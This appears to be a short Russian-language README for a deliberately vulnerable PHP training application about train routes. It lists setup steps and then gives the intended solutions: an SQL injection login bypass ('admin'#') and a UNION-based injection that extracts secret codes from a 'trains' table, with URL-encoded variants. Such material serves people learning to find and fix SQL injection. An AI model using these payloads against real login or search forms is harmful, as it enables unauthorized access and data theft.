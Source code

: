 SQLi
=========

Установка
-------
- В файле **db_connect.php** установить логин и пароль для рута
- Запустить файл **1337_setup.php** (могут выдаваться ошибки, но они несущественны: например, команда типа *DROP USER* выполняется на несуществующем пользователе и т. п.)

Инъекции
------
- На главной странице (*index.php*) в поле *Логин* ввести **admin'#**, в поле *Пароль* ввести *что-нибудь* (или */login.php?login=admin'%23*)
- На странице поиска маршрутов (*center.php*) ввести поисковый запрос **x' union select num,secret,'','' from trains#** (или */trains.php?search=x'%20union%20select%20num%2Csecret%2C''%2C''%20from%20trains%23*)

Итог
---------
С помощью полученных секретных кодов на странице *paths.php* получить подробную информацию о маршрутах